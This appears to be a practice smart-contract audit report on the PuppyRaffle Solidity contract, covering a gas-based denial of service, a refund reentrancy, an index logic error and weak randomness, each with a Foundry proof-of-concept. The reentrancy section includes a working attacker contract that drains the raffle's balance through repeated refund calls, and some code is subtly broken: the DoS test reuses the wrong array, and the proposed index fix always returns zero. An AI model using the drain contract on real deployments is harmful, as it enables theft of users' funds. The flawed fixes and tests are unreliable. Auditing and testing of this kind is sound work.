 ### [Medium-1] An unbounded for loop that results into denial of service

**Description:** 

`PuppyRaffle::enterRaffle` implements a for loop logic that checks for duplicate address by running the check through the array, `PuppyRaffle::players` with a dynamic size. This check can get slowly gas expensive as new address is added to the array and more check is done OR exponentially gas expensive if exploited by attacker.
<details>
<summary>Code</summary>

```javascript
     // @Audit DoS attack
@>      for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }


```
</details>

**Impact:** 

Due to the unlimited size of the state variable array, `PuppyRaffle::players`, an attacker can exploit `PuppyRaffle::enterRaffle` by exponentially increasing the size of `PuppyRaffle::players`. This makes `PuppyRaffle::enterRaffle`  gas expensive while checking for duplicates address in the for loop. Exponential increase of the size of the array, `PuppyRaffle::players` will render it too expensive. Therefore, economically infeasible for users. Thereby limiting the winner address to attacker's array of addresses.

**Proof of Concept:**

For the first 100 players that entered the raffle, we have the gas to be: `6270396`
While the second 100 players to be: `24361862`

Therefore, this `4x` gas expensive for the second 100 players

<details>

<summary>PoC</summary>

place the following test into the test suite: `PuppyRaffleTest.t.sol`

```Javascript
 function test_DOSAttack() public {
        vm.txGasPrice(1);
        uint initial = gasleft();

        uint playerNumber = 100;

        //initialize an array for first 100 players
        address[] memory DoS_array = new address[](playerNumber);
        for (uint160 i = 0; i < playerNumber; i++) {
            DoS_array[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playerNumber}(DoS_array);
        //how much gases consumed?
        uint256 gases = initial - gasleft();
        console.log(gases);

        //the gas is astronomically high for second 100 players
        

        address[] memory DoS_arraySecond = new address[](playerNumber);
        for (uint160 i = 0; i < playerNumber; i++) {
            DoS_array[i] = address(i + playerNumber);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playerNumber}(DoS_array);
        //how much gases consumed?
        uint256 gasesSecond = initial - gasleft();
        console.log(gasesSecond);
        assert(gases < gasesSecond);
    }
```
</details>

**Recommended Mitigation:** 
1. The protocol might consider allowing duplicate address. This can be taken into consideration since an attacker can
enter the raffle with multiple addresses to bypass the "duplicate check." So, what use then?

2. Consider using a mapping to check duplicates. Each address that has entered the raffle can be mapped to `bool value:true`. This would allow check for duplicate in constant time.

```diff
-    for (uint256 i = 0; i < players.length - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }

+    mapping(address => bool) public isAddressEntered;


+  for (uint256 i = 0; i < newPlayers.length; i++) {
+      if (!isAddressEntered[newPlayers[i]]) {
+               players.push(newPlayers[i]);
+               isAddressEntered[newPlayers[i]] = true;
+           } else if (isAddressEntered[newPlayers[i]]) {
+               revert("PuppyRaffle: Duplicate player");
+           }
+ }
```
3. Lastly, you can implement [Openzepplin Enumerable library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)


### [High-#] RE-ENTRANCY ATTACK: Making external call before state change which would drain the contract balance

**Description:** 
`PuppyRaffle::refund` can be called repeatedly by another contract before its first invocation finishes due to it making 
external call before updating the state variable

```javascript

    @External call>    payable(msg.sender).sendValue(entranceFee);

    @State change>   players[playerIndex] = address(0);
```

**Impact:** 

An attacker can readily enter as a legitimate participant of the raffle and repeatedly exploit the `PuppyRaffle::refund` 
to drain the `PuppyRaffle` contract balance.

**Proof of Concept:**

Paste this test suite in the `PuppyRaffleTest.t.sol` 
<details>
<summary> Proof of Code </summary>

```javascript
   
    function testCanEnterRaffleReentrancy() public {
        //legitimate participants of the PuppyRaffle
        address[] memory players = new address[](4);

        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        uint raffleBalance_beforeAttack = address(puppyRaffle).balance;

        //An attacker enters the raffle with the intention of stealing all funds
        //in the puppyRaffle contract

        REENTRANCY_ATTACK AttackContract = new REENTRANCY_ATTACK(puppyRaffle);
        // address prankin = address(Attack);
        address attacker = makeAddr("Attacker");

        vm.deal(attacker, 2 ether);

        vm.prank(attacker);
        AttackContract.lets_play{value: entranceFee}();

        //Sending payload-
        AttackContract.attack();

        //Raffle balance after successful attack
        uint raffleBalance_afterAttack = address(puppyRaffle).balance;

        //attack contract balance after attack
        uint attackBalance = address(AttackContract).balance;

        //PROOF
        console.log("raffle balance before attack", raffleBalance_beforeAttack);
        console.log("raffle balance after attack", raffleBalance_afterAttack);

        console.log("AttackContract balance after attack", attackBalance);
    }


contract REENTRANCY_ATTACK {
    PuppyRaffle puppyRaffle;
    uint public playerIndex;
    uint public entranceFee;

    constructor(PuppyRaffle raffle) {
        puppyRaffle = raffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function lets_play() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        playerIndex = puppyRaffle.getActivePlayerIndex(address(this));
    }

    function attack() public {
        puppyRaffle.refund(playerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= 1 ether) {
            puppyRaffle.refund(playerIndex);
        }
    }

    fallback() external payable {}
}

```
</details>

**Recommended Mitigation:** 

Ensure the logic of your codebase conforms to the CEI flow:
* C: check, require statement
* E: Effect, update changes to the state variables if any
* I: Interaction, only make external calls then.

<details>
<summary>Proof of Code</summary>

```diff
@> refund function: 
-       payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);

+         players[playerIndex] = address(0);
+         payable(msg.sender).sendValue(entranceFee);
```

</details>

### [S-#] A logical error that leads to unexpected outcomes

**Description:** 

`PuppyRaffle::getActivePlayerIndex` is intended to return `uint 0` if the address is not active in an on-going Raffle. However, an active address with an index of zero in the `PuppyRaffle::players` will also return  `uint 0`.

**Impact:** 
 unexpected behaviour/outcome of `PuppyRaffle::getActivePlayerIndex` when called.

**Proof of Concept:**

<details>

Paste this in the test suite, `PuppyRaffleTest.t.sol`

<summary>Proof of Code</summary>

```javascript
    function testGetActivePlayerLogicError() public {
        address[] memory players = new address[](1);
        //only a user entered the raffle
        players[0] = playerOne;
        puppyRaffle.enterRaffle{value: entranceFee * 1}(players);

        //inactive player should return zero(uint)
        uint inActivePlayer= puppyRaffle.getActivePlayerIndex(playerTwo);

        //while an active player will return zero(uint) as well
         uint ActivePlayer= puppyRaffle.getActivePlayerIndex(playerOne);

       assertEq(inActivePlayer, ActivePlayer);
    }
```
</details>

**Recommended Mitigation:** 

Inactive address will return the string "not active" instead

```diff
- for (uint256 i = 0; i < players.length; i++) {
-           if (players[i] == player) {
-               return i;
-           }
-       }
-       return 0;
.
.
.
+   if (isAddressEntered[player]) {
+           for (uint i = 0; i < players.length; i++) {
+               players[i] == player;
+               return Strings.toString( i);
+           }
+       }
+       return ("not active");
```

### [S-#] Weak randomness, the winner index can be influenced

**Description:** 

For `PuppyRaffle::selectWinner`, using deterministic global variables such as "block.timestamp, block.difficulty, now" can be manipulated 

**Impact:** 
A malicious validator/miner can win and/or mint a rare NFT breed

**Proof of Concept:**
<details>

<summary>Proof of Code</summary>

```javascript
   function test_exploitWeakRandomness() public {
        address maliciousMiner = makeAddr("miner");
        address[] memory players = new address[](5);

        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        players[4] = maliciousMiner;
        puppyRaffle.enterRaffle{value: entranceFee * 5}(players);
        //by simulating a predetermined block difficulty and timestamp we can prove
        //that a miner/validator can do that too
        vm.warp(1678989);
        //console.log(block.timestamp);
        vm.prevrandao(bytes32(uint(25)));
       // console.log(block.difficulty);
        uint winningIndexManipulated = uint256(
            keccak256(
                abi.encodePacked(msg.sender, block.timestamp, block.difficulty)
            )
        ) % players.length;
         string memory maliciousMinerIndex = puppyRaffle.getActivePlayerIndex(
            maliciousMiner
        );
        address x= puppyRaffle.players(4);
        console.log(x, maliciousMiner,playerOne);
        assertEq(maliciousMinerIndex, Strings.toString(winningIndexManipulated));
    }
```

</details>

**Recommended Mitigation:** 

Implement chainlink veriable randomness [Chainlink_vrk](https://chain.link/vrf)

Note: onchain seeds are pre-deterministic


### [S-#] TITLE (Root Cause + Impact)

**Description:** 

**Impact:** 

**Proof of Concept:**

**Recommended Mitigation:** 